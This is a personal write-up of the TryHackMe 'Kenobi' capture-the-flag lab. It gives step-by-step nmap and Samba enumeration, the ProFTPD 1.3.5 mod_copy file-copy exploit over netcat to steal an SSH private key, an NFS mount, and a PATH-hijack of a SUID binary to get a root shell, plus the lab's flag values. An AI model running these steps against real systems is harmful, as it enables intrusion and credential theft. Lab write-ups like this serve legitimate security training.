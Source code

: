 # Kenobi Try Hack Me

My IP = 10.8.19.163

Target IP = 10.10.51.195

#NMAP  
> "nmap -sC -sV -p- -T5 --script vuln 10.10.51.195"

#Grepped 'open' lines:

		21/tcp    open  ftp         ProFTPD 1.3.5 - Very vulnerable service version
		22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
		80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
		|       Slowloris tries to keep many connections to the target web server open and hold
		|       them open as long as possible.  It accomplishes this by opening connections to
		111/tcp   open  rpcbind     2-4 (RPC #100000)
		139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
		445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
		2049/tcp  open  nfs_acl     2-3 (RPC #100227)
		37039/tcp open  nlockmgr    1-4 (RPC #100021)
		39789/tcp open  mountd      1-3 (RPC #100005)
		43859/tcp open  mountd      1-3 (RPC #100005)
		55697/tcp open  mountd      1-3 (RPC #100005)

#7 ports available for communication.

#Samba Enumeration:

>	nmap scan: "nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.51.195"

	Nmap scan report for 10.10.51.195
	Host is up (0.053s latency).

	PORT    STATE SERVICE
	445/tcp open  microsoft-ds

	Host script results:
	| smb-enum-shares: 
	|   account_used: guest
	|   \\10.10.51.195\IPC$: 
	|     Type: STYPE_IPC_HIDDEN
	|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
	|     Users: 1
	|     Max Users: <unlimited>
	|     Path: C:\tmp
	|     Anonymous access: READ/WRITE
	|     Current user access: READ/WRITE
	|   \\10.10.51.195\anonymous: 
	|     Type: STYPE_DISKTREE
	|     Comment: 
	|     Users: 0
	|     Max Users: <unlimited>
	|     Path: C:\home\kenobi\share
	|     Anonymous access: READ/WRITE
	|     Current user access: READ/WRITE
	|   \\10.10.51.195\print$: 
	|     Type: STYPE_DISKTREE
	|     Comment: Printer Drivers
	|     Users: 0
	|     Max Users: <unlimited>
	|     Path: C:\var\lib\samba\printers
	|     Anonymous access: <none>
	|_    Current user access: <none>
	|_smb-enum-users: ERROR: Script execution failed (use -d to debug)

	Nmap done: 1 IP address (1 host up) scanned in 21.48 seconds

#How many samba shares are open? "3"

#Used smbclient

>smbclient //10.10.51.195/anonymous to see available files.

#Used smbget -R smb://10.10.51.195/anonymous
	
	Using workgroup WORKGROUP, user root
	smb://10.10.51.195/anonymous/log.txt                                                                     
	Downloaded 11.95kB in 3 seconds

#Downloaded file contained a 2048 RSA KEY rand art image:

+---[RSA 2048]----+
|                 |
|           ..    |
|        . o. .   |
|       ..=o +.   |
|      . So.o++o. |
|  o ...+oo.Bo*o  |
| o o ..o.o+.@oo  |
|  . . . E .O+= . |
|     . .   oBo.  |
+----[SHA256]-----+

#Next nmap to see RPC Bind. Command:

	"nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.51.195"

#ProFTPd 1.3.5 has a critical vulnerability rating and its time to enumerate that vulnerability.

 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)  | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution        | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                  | linux/remote/36742.txt

These vulnerabilities allow for a attacker to copy files from and to (CPFR & CPTO) different directories on the web server. 

#MOVE Keys to and from different locations.

	Commands: nc 10.10.51.195 21

	SITE CPFR /home/kenobi.ssh/id_rsa
	SITE CPTO /var/tmp/id_rsa

	This copies the RSA key to the .var directory that is mounted and what we can see.

#Mount the machines /var to our machine.

	mkdir /mnt/kenobiNFS
	mount 10.10.159.103:/var /mnt/kenobiNFS
	
	ls -la /mnt/kenobiNFS/

	drwxr-xr-x 14 root root    4096 Sep  4  2019 ./
	drwxr-xr-x  4 root root    4096 May 14 14:38 ../
	drwxr-xr-x  2 root root    4096 Sep  4  2019 backups/
	drwxr-xr-x  9 root root    4096 Sep  4  2019 cache/
	drwxrwxrwt  2 root root    4096 Sep  4  2019 crash/
	drwxr-xr-x 40 root root    4096 Sep  4  2019 lib/
	drwxrwsr-x  2 root staff   4096 Apr 12  2016 local/
	lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock/
	drwxrwxr-x 10 root crontab 4096 Sep  4  2019 log/
	drwxrwsr-x  2 root mail    4096 Feb 26  2019 mail/
	drwxr-xr-x  2 root root    4096 Feb 26  2019 opt/
	lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run/
	drwxr-xr-x  2 root root    4096 Jan 29  2019 snap/
	drwxr-xr-x  5 root root    4096 Sep  4  2019 spool/
	drwxrwxrwt  6 root root    4096 May 14 14:37 tmp/
	drwxr-xr-x  3 root root    4096 Sep  4  2019 www/

	Copied SSH key to my kenobi directory.

#Login with SSH: ssh -i id_rsa kenobi@10.10.159.103

	kenobi user.txt FLAG file: d0b0f3f53b6caa532a83915e19224899

#Escalate kenobi privileges to Root.

	search for SUID binaries: "find / -perm -u=s -type f 2>/dev/null"

	/usr/bin/menu appears to be unordinary. Ran same command on my PC to see differences.

#Search for human readable lines in a binary file.

	Upgrade sh permissions to be run as root with the .usr.bin.menu file

	kenobi@kenobi:~$ echo /bin/sh > curl
	kenobi@kenobi:~$ chmod 777 curl
	kenobi@kenobi:~$ export PATH=/tmp:$PATH
	kenobi@kenobi:~$ /usr/bin/menu

	Those copies the echo/sh file and renames it curl and gains root access when ran.

	So we need to use our new "curl" to search for files on the system.

	Rewrote the files in /tmp. Ran the /usr/bin/menu command. Selected option1. Gave root shell (#).

	cd root/root.txt FLAG: 177b3cd8562289f37382721c28381f02



